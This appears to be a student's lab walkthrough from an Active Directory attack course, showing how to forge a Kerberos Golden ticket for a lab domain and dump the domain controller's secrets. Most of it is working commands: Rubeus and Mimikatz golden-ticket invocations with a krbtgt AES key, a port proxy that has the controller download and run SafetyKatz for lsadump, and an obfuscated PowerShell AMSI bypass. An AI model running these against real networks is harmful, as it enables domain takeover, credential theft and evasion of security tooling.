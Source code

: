 
Task 
• Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket.
• Use the Golden ticket to (once again) get domain admin privileges from a machine.


From one of the previous hands-on, we have domain admin privileges (we abused the printer bug on usweb with unconstrained delegation and ran DCSync attack). Let’s use the AES keys of krbtgt account to create a Golden ticket.

Use the below Rubeus command to generate an OPSEC friendly command for Golden ticket. Note that 3 LDAP queries are sent to the DC to retrieve the required information. We will once again use ArgsSplit.bat to encode "golden":

```
echo %Pwn% golden
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /ldap /sid:S-1-5-21-210670787-2521448726-163245708 /user:Administrator /printcmd
```

![[Pasted image 20250319010343.png]]

Now, use the generated command to forge a Golden ticket. Remember to add /ptt at the end of the generated command to inject it in the current process. Once the ticket is injected, we can access resources in the domain. Note that we will once again use Loader.exe and ArgsSplit.bat to encode "golden":

```
C:\AD\Tools\Loader.exe golden /aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /user:Administrator /id:500 /pgid:513 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /pwdlastset:"7/5/2019 12:42:09 AM" /minpassage:1 /logoncount:879 /netbios:US /groups:544,512,520,513 /dc:US-DC.us.techcorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

![[Pasted image 20250319010458.png]]

The Golden ticket is injected in the current session, we should be able to access any resource in the domain as administrator (DA):

```
winrs -r:us-dc cmd
```

![[Pasted image 20250319010604.png]]

Now, to extract all the secrets in the domain from the domain controller, we can use the below command. Run the below commands from a command prompt where we injected the Golden Ticket

```
echo F | xcopy C:\AD\Tools\Loader.exe \\us-dc\C$\Users\Public\Loader.exe /Y
```

```
winrs -r:us-dc cmd
```

```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.139
```

Use ArgSplit.bat on the student VM to encode "lsadump::lsa":

```
echo %Pwn%  lsadump::lsa
```

Copy the generated commands and use it on the winrs session on us-dc:

```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

![[Pasted image 20250319010902.png]]

Using Invoke-Mimi.ps1and PowerShell Remoting 

We can also use Invoke-Mimi from a normal PowerShell session:

```
. C:\AD\Tools\Invoke-Mimi.ps1
```

```
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

![[Pasted image 20250319011014.png]]

Access the DC using PowerShell Remoting:

```
 Enter-PSSession -ComputerName us-dc
```

```
 $sess = New-PSSession us-dc.us.techcorp.local
```

```
 Enter-PSSession -Session $sess
```

```
 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

![[Pasted image 20250319011144.png]]

